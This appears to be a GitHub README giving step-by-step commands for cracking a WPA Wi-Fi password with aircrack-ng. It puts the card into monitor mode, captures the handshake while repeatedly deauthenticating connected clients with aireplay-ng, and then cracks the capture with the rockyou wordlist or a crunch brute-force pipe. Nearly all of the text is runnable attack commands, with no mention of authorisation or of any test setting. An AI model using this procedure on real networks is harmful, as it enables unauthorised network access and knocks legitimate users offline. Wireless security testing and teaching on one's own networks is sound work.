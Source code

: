 ### A. Start General Info
1. **Switch to Super User:**
   ```bash
   sudo su
   ```
2. **Check Network Configuration:**
   ```bash
   iwconfig
   # Ensure the network is in Mode:managed
   ```
3. **Check Running Processes:**
   ```bash
   airmon-ng check
   ```
4. **Kill Current Processes:**
   ```bash
   airmon-ng check kill
   # Rechecking will show nothing this time
   ```

### B. Change Manager Mode to Monitor Mode
1. **Start Monitor Mode:**
   ```bash
   airmon-ng start wlan0
   # wlan0 can vary, e.g., wlan0mon
   ```

### C. Gather Basic Info
1. **Capture Basic Network Info:**
   ```bash
   airodump-ng wlan0
   # Stop the process after 10-15 seconds
   ```
2. **Create a Text Note:**
   ```txt
   BSSID:
   CH (channel):
   ESSID:
   ```

### D. Dump the Capture File
1. **Folder Structure:**
   ```
   -|New_Folder
      |- Captured_Files
      |- rockyou
   ```
2. **Capture Handshake:**
   ```bash
   # Inside "Captured_Files" folder, do `sudo su` & use
   airodump-ng wlan0 -d <bssid>
   # Keep this process running
   ```
3. **De-authenticate Clients:**
   ```bash
   # In the same folder, open another terminal
   aireplay-ng --deauth 0 -a <bssid> wlan0
   # Close after 20 seconds
   ```
4. **Capture Files:**
   ```bash
   airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
   # Close after 20 seconds
   ```
5. **Re-run De-auth and Capture:**
   ```bash
   aireplay-ng --deauth 0 -a <bssid> wlan0
   # Close after 20 seconds
   airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
   # Close after 20 seconds
   ```
6. **Check Captured Files:**
   ```bash
   ls
   # Check the files in "Captured_Files" folder
   # Visible formats: csv, netxml, cap
   ```

### E. Dictionary Attack (Method One)
1. **Download and Extract `rockyou.txt`:**
   ```
   -|New_Folder
      |- Captured_Files
      |- rockyou (extract it & paste the `rockyou.txt` file here)
   ```
2. **Optional: Use Built-in `rockyou` File from Kali Linux:**
   ```bash
   gunzip -c /usr/share/wordlists/rockyou.txt.gz > ~/Desktop/New_Folder/rockyou/rockyou.txt
   ```
3. **Change Permissions and Run Aircrack-ng:**
   ```bash
   chmod 777 ~/Desktop/New_Folder/rockyou/rockyou.txt
   aircrack-ng file_name.cap -w /Desktop/New_Folder/rockyou/rockyou.txt
   ```

### F. Brute Force Attack (Method Two)
1. **Generate Passwords and Run Aircrack-ng:**
   ```bash
   crunch 8 12 pbcedfeg | aircrack-ng file_name.cap -b <bssid> -w-
   ```

## Post process  
```bash
# After all things done, do this before shutting OS
airmon-ng Stop wlan0
``` 